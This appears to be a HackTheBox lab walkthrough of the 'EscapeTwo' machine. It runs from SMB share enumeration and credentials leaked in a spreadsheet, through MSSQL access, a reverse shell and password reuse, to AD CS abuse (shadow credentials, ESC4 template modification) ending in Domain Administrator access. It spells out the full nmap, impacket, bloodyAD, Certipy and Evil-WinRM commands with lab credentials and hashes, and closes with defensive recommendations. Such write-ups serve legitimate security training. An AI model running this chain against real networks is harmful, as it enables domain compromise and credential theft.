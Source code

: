 ![](images/image0.png)

# EscapeTwo HackTheBox Walkthrough

This report presents a professional and methodical breakdown of the **EscapeTwo** Windows domain exploitation chain.  
It covers SMB enumeration, data exfiltration, MSSQL exploitation, lateral movement, and privilege escalation through Active Directory Certificate Services (AD CS) misconfigurations.

---

## 1. Initial Reconnaissance

We began with a full-scope Nmap scan to identify exposed services on the target machine (`10.129.86.231`):

```bash
nmap -p- -Pn 10.129.86.231 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.86.231 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.86.231 -v --script vuln -oN nmap_vuln.txt
```

![](images/image5.png)

Open ports revealed **SMB (445)** and **MSSQL (1433)** services — a strong indicator of a Windows domain host with database integration.

---

## 2. SMB Share Enumeration

Using valid credentials, we enumerated network shares to uncover accessible directories:

```bash
smbclient -L 10.129.86.231
```

![](images/image9.png)

Among the discovered shares, the **Accounting** directory contained several `.xlsx` spreadsheet files.

![](images/image14.png)

When opened in LibreOffice, the documents appeared to be **password-protected**. We attempted to extract password hashes with `office2john`, but results indicated **file corruption**.

![](images/image11.png)

---

## 3. Extracting Data from XLSX Files

Since `.xlsx` files are ZIP archives, we unpacked one using:

```bash
unzip accounting.xlsx -d extracted/
```

![](images/image3.png)

Inside the extracted XML data, the `sharedStrings.xml` file exposed **MSSQL database credentials** in plaintext.

![](images/image8.png)

---

## 4. MSSQL Exploitation

Using the recovered credentials, we authenticated to the MSSQL server:

```bash
impacket-mssqlclient sa:"MSSQLP@ssw0rd!"@10.129.86.231
```

![](images/image1.png)

Command execution was enabled, granting system-level interaction.  
We leveraged a reverse shell payload from [revshells.com](https://revshells.com) to establish an outbound connection.

![](images/image2.png)

A successful reverse shell was received, providing our initial foothold.

---

## 5. Local Enumeration & Credential Discovery

While enumerating the local file system, we found an unusual directory:  
`C:\SQL2019\ExpressAdv_ENU`.

Inspecting `sql-Configuration.INI` revealed **plaintext installation credentials**.

![](images/image13.png)

Using a **password spray** against known local users (via `net user`), we determined that **ryan** reused this password.  
Logging in as Ryan granted us user-level access.

![](images/image19.png)

After establishing a session as Ryan, we successfully retrieved the **user flag**.

![](images/image4.png)

---

## 6. Active Directory Enumeration & Privilege Escalation

Using **BloodHound**, we identified that **ryan** had the **WriteOwner** privilege over the **ca_svc** service account.

![](images/image17.png)

We exploited this misconfiguration using **BloodyAD** to take ownership and grant ourselves full permissions over `ca_svc`:

```bash
python3 bloodyAD.py -d sequel.htb --host 10.129.86.231 -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
python3 bloodyAD.py -d sequel.htb --host 10.129.86.231 -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
```

![](images/image7.png)

Next, we executed a **shadow credential attack** using Certipy to impersonate `ca_svc`:

```bash
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account ca_svc -dc-ip 10.129.86.231
```

![](images/image20.png)

---

## 7. Exploiting Vulnerable Certificate Templates (ESC4)

We enumerated certificate templates for vulnerabilities and found one susceptible to **ESC4 privilege escalation**:

```bash
certipy find -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -dc-ip 10.129.86.231 -vulnerable -stdout
```

![](images/image6.png)

Following the documented attack chain, we first modified the vulnerable template:

```bash
certipy template -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -dc-ip '10.129.86.231' -template 'DunderMifflinAuthentication' -write-default-configuration
```

![](images/image15.png)

Then, we requested a new certificate impersonating the **Administrator**:

```bash
certipy req -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -dc-ip '10.129.86.231' -target 10.129.86.231 -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn 'administrator@sequel.htb'
```

![](images/image18.png)

Finally, we authenticated as **Administrator** using the newly generated certificate:

```bash
certipy auth -pfx administrator.pfx -domain sequel.htb -u administrator -dc-ip 10.129.86.231
```

![](images/image10.png)

We confirmed full **Domain Administrator** access by logging in via **Evil-WinRM**:

```bash
evil-winrm -i 10.129.86.231 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
```

![](images/image16.png)
![](images/image12.png)

---

## 8. Conclusion

This exercise demonstrates a chained exploitation path starting from SMB share leakage to full domain dominance via AD CS misconfiguration.

### Key Takeaways
- **Sensitive credentials** were stored unencrypted in Office documents.  
- **Password reuse** across local accounts enabled lateral movement.  
- **Active Directory privilege misconfigurations** facilitated account takeover.  
- **Vulnerable certificate templates (ESC4)** provided domain administrator privileges.

### Recommendations
- Restrict SMB access and remove sensitive files from shared locations.  
- Use encrypted password managers and avoid credential reuse.  
- Audit AD CS configurations regularly and disable vulnerable templates.  
- Enforce least privilege for all service accounts.  
- Implement centralized credential monitoring and regular security reviews.

---
